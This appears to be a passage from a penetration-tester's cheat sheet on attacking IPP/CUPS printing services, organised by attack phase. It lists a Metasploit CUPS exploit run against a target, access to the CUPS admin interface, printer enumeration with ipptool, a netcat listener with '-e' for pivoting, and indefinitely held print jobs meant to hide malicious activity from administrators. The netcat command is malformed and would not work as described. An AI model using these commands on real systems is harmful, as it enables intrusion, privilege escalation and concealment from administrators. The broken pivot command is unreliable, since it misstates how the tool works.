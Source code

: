 #### Abusing Elevated IPP Services

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/unix/lpd/cups_job
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploit IPP services running with elevated privileges to escalate access on the target system.

#### Abuse of IPP Administration

*   **Tool:** CUPS Web Interface

    ```bash
    http://<target_ip>:631/admin
    ```
* **Description:** Gain administrative access to CUPS via misconfigured authentication settings.

### Internal Reconnaissance

#### Printer Enumeration

*   **Tool:** \[\[IPPTool]]

    ```bash
    ipptool -tv ipp://<target_ip>:631/printers/<printer_name> get-printer-attributes.test
    ```
* **Description:** Gather detailed information about network printers, potentially revealing sensitive configurations or documents.

### Lateral Movement, Pivoting, and Tunnelling

#### Pivoting through IPP

*   **Tool:** \[\[NetCat]]

    ```bash
    nc -lvp 8080 -e lp -d <printer_name> <file_to_print>
    ```
* **Description:** Uses IPP to establish a covert channel or pivot point within the network.

### Defense Evasion

#### Hiding Malicious Jobs in Queue

*   **Tool:** \[\[LP]]

    ```bash
    lp -d <printer_name> -o job-hold-until=indefinite <file_to_print>
    ```
* **Description:** Submits a job that remains in the queue indefinitely, potentially hiding malicious activity from administrators.
